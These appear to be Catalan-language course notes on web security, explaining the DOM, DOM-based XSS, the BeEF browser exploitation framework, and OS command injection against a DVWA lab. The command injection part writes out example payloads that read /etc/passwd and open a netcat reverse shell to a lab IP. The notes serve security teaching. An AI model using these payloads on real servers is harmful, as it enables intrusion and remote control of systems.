Quan un navegador carrega una pàgina web, construeix una estructura de dades del DOM basant-se en el codi HTML del document. El navegador no mostra el codi HTML directament, sinó la representació visual del DOM.
Cada element del document, incloent-hi el text i els atributs, es converteix en un objecte que el DOM organitza en una jerarquia d'arbre.
Aquesta estructura en forma d'arbre facilita la navegació per la pàgina. L'element arrel és document, que conté la resta de nodes. Per exemple, el node <html> és el fill de document, i el <head> i el <body> són els fills de <html>. Cada node, alhora, pot tenir fills, germans i un pare, cosa que permet als desenvolupadors accedir i manipular qualsevol part de la pàgina.
A banda dels nodes HTML, el DOM també emmagatzema les propietats de la pàgina, com les cookies, la URL de la que ve la pàgina (referer), la URL actual, etc..
Per més informació es recomana consultar la pàgina de Mozilla Developement Network DOM
Com funciona? El navegador executa un script maliciós sense que la pàgina hagi estat alterada. L'atac es basa en la manipulació de l'estructura del DOM (Document Object Model) de la pàgina a través de dades que l'usuari ha inserit, com ara un fragment de l'URL.
Exemple: Una pàgina utilitza JavaScript per a llegir un paràmetre de l'URL i inserir-lo directament al HTML sense comprovar-ne el contingut. Un atacant pot crear un enllaç que injecti un script que manipuli el DOM de la pàgina.
Practica
Per practicar l'XSS es poden utilitzar algun recursos interessants
I altres....
XSS Challenge by y0n3uchy -.-.- XSS Challenges by intigritiEina BeEF
BeEF (Browser Exploitation Framework) és una eina de codi obert dissenyada per a auditar la seguretat dels navegadors web. A diferència d'altres eines que s'enfoquen en el servidor, BeEF se centra en el client (el navegador de l'usuari). L'eina "injecta" codi JavaScript maliciós a un navegador vulnerable i l'utilitza per a controlar-lo de forma remota.
BeEF facilita les tasques d'explotació d'una vulnerabilitat XSS. Es tracta d'un framework que permet llançar un gran numero d'atacs sobre un objectiu compromés.
Repo de BeEF en Github
OS Command Injection
La injecció de comandes del sistema operatiu (OS Command Injection) és una vulnerabilitat de seguretat que permet a un atacant executar comandes del sistema operatiu en un servidor a través d'una aplicació web. Aquesta vulnerabilitat es produeix quan una aplicació web utilitza l'entrada de l'usuari per a construir i executar una comanda del sistema sense validar-la o sanejar-la correctament.
Com funciona?
Una aplicació web vulnerable sol tindre una funcionalitat que executa una comanda a nivell del sistema operatiu per a realitzar una tasca. Per exemple, una pàgina que permet als usuaris fer un ping a una adreça IP podria usar una comanda com:
ping $_GET['ip']Si l'usuari introdueix una adreça IP vàlida, la comanda s'executa correctament. No obstant això, un atacant pot afegir metacaràcters
com ";", "|" o "&" (depenent del sistema operatiu) per a encadenar una nova comanda.
Per exemple, si l'atacant introdueix el següent valor a la URL:
localhost; ls -laLa comanda final que s'executaria al servidor seria:
ping localhost; ls -laAixò faria que el servidor no només executés la comanda ping, sinó que també executés la comanda ls -la, que llista els arxius i directoris del sistema. Aquesta informació podria ser útil per a un atacant per a planejar atacs futurs.
Si en compte de posar un ls l'atacant posa un nc (netcat) per obrir una shell inversa ...
; tail /etc/passwd
; nc -e /bin/sh 10.0.10.40 4444
Blind command injection
De vegades, els resultats no es mostren en la pagina web resultant, i cal recorrer a tèniques més sofisticades per poder exfiltrar les dades.
i despres usar LFI amb 10.0.10.50/dvwa/hackable/uploads/usuarios.txt